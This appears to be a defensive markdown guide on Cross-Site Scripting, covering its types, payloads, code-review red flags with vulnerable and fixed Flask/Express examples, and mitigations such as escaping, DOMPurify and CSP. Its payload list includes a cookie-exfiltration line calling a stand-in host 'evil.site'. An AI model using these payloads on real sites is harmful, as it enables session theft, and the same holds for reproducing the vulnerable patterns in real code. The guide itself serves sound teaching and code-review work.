 ## 🧠 Description

- **What it is (simple + technical)**:  
  Cross-Site Scripting (XSS) is a vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users.  
  In simple terms, it lets an attacker "sneak JavaScript" into your website, which runs in the browser of someone else.

- **Where it occurs**:  
  Usually on the **frontend** — when user input is inserted into the HTML/DOM without proper escaping or sanitization. However, the root cause is often **backend-rendered HTML** that does not sanitize user data.

- **Root cause**:  
  Unsanitized user input is rendered directly into HTML, JavaScript, or attributes — allowing attackers to execute code in the victim’s browser.

- **The different types**:
  - **Stored XSS**:  
    Malicious scripts are stored in the database (or another storage layer) and served to users later. This affects every user who views the affected page.

  - **Reflected XSS**:  
    The payload is part of the URL or request, and is immediately reflected in the response (e.g., error messages, search results).

  - **DOM-based XSS**:  
    JavaScript in the frontend modifies the DOM using unsanitized data from `document.location`, `document.cookie`, `window.name`, etc.

---

## 🧪 Exploitation Techniques

- **Step-by-step walkthrough (Reflected XSS example)**:
  1. Attacker finds an input field or URL param that reflects input into the page.
  2. They test with payloads like `<script>alert(1)</script>`.
  3. If the script runs in the browser, the site is vulnerable.
  4. Attacker may then craft a malicious link to steal cookies, redirect users, or execute actions on their behalf.

- **Payload examples**:

  - `<script>alert(1)</script>`  
    Classic payload to see if script execution is possible via raw injection into HTML.

  - `<img src=x onerror=alert(1)>`  
    Triggers an alert when the image fails to load. Useful when `<script>` tags are blocked.

  - `<svg onload=alert(1)>`  
    Triggers on SVG load — bypasses some filters and is effective in certain template engines.

  - `<script>fetch('https://evil.site?c=' + document.cookie)</script>`  
    Steals cookies and exfiltrates them to an attacker-controlled server.

  - `https://site.com/?name=<img src=x onerror=alert(1)>`  
    If the site uses this parameter without escaping (`innerHTML` or unsafe rendering), this results in XSS.

  - DOM-based payload:
    ```js
    // vulnerable code
    document.body.innerHTML = "Hi " + location.search;
    ```
    Visiting:
    ```
    https://site.com/?<img src=x onerror=alert(1)>
    ```
    will inject a payload into the DOM.

---

## 🔎 Code Review Tips

- **Patterns/red flags**:
  - Rendering user input directly into HTML:
    - `res.send("<div>" + req.query.name + "</div>")`
    - `innerHTML = userInput;`
    - Using `dangerouslySetInnerHTML` in React without sanitization

- **Bad vs Good Examples**:

  - ❌ **Bad - Python (Flask)**
    ```python
    @app.route("/greet")
    def greet():
        name = request.args.get("name")
        return f"<h1>Hello {name}</h1>"
    ```

  - ✅ **Good - Python (Flask + escaping)**
    ```python
    from markupsafe import escape

    @app.route("/greet")
    def greet():
        name = request.args.get("name")
        return f"<h1>Hello {escape(name)}</h1>"
    ```

  - ❌ **Bad - TypeScript (Express)**
    ```ts
    app.get("/greet", (req, res) => {
      const name = req.query.name;
      res.send(`<h1>Hello ${name}</h1>`);
    });
    ```

  - ✅ **Good - TypeScript (Express + escaping)**
    ```ts
    import escapeHtml from "escape-html";

    app.get("/greet", (req, res) => {
      const name = escapeHtml(req.query.name as string);
      res.send(`<h1>Hello ${name}</h1>`);
    });
    ```

---

## ⚠️ Modern Frontend XSS Risks

Even in React, Vue, or Angular apps — XSS is still possible if you bypass the framework’s built-in protections.

- **`dangerouslySetInnerHTML` (React)**:
  - Allows direct injection of HTML into the DOM — including scripts if not sanitized.
  - Example:
    ```tsx
    <div dangerouslySetInnerHTML={{ __html: userInput }} />
    ```
  - ✅ Only use with trusted content (e.g. Markdown rendered with `DOMPurify`).

- **`innerHTML` (vanilla JS)**:
  - Injects raw HTML into the DOM. XSS occurs if user-controlled input is inserted here.
    ```js
    element.innerHTML = "<p>" + userInput + "</p>";
    ```

- **DOM Clobbering**:
  - Some older DOM APIs allow an attacker to override built-in variables by injecting elements with special names/IDs.
    ```html
    <input name="constructor">
    ```
    Could be used to break object prototypes or override behavior in certain apps.

- **Third-party JS Libraries**:
  - Libraries that render HTML (e.g., jQuery `.html()`, Mustache templates, even some Markdown parsers) can be abused if user input is passed directly.
  - ✅ Use libraries like `DOMPurify` or `sanitize-html`.

- **Security Headers**:
  - Use `Content-Security-Policy` to prevent inline scripts and restrict sources:
    ```
    Content-Security-Policy: default-src 'self'; script-src 'self'
    ```

---

## 🛡️ Mitigation Strategies

- **Input validation/sanitization**:
  - Enforce strict input types/lengths
  - Reject unsafe characters like `<`, `>`, `"`, `'`

- **Escaping/encoding**:
  - Escape output depending on context:
    - HTML → `&lt;`, `&gt;`
    - JS → quote encoding
    - URL → percent encoding

- **Use secure frameworks/libraries**:
  - Templating engines: Jinja2, EJS, Handlebars escape output by default
  - Frontend libs: React, Vue auto-escape by default
  - For HTML sanitization: use `DOMPurify`

- **CSP (Content Security Policy)**:
  - Prevents untrusted scripts from running
    ```
    Content-Security-Policy: default-src 'self'; script-src 'self'
    ```

- **Best practices**:
  - Avoid `innerHTML`, `eval`, `setTimeout` with strings
  - Use `textContent`, `setAttribute`, or safe component props instead
  - Enable browser protections and CSP fallback headers

---

## 🔐 Blockchain Context (if applicable)

- While smart contracts don’t use HTML/JS, **Web3 apps** often have frontend interfaces (wallet dashboards, NFT marketplaces).
- If those UIs have XSS vulnerabilities, attackers could:
  - Steal wallet addresses or private data
  - Trick users into signing malicious transactions
  - Modify on-screen values (e.g., token prices, receiver addresses)
- **DeFi + XSS = dangerous** due to trustless signing flows

---

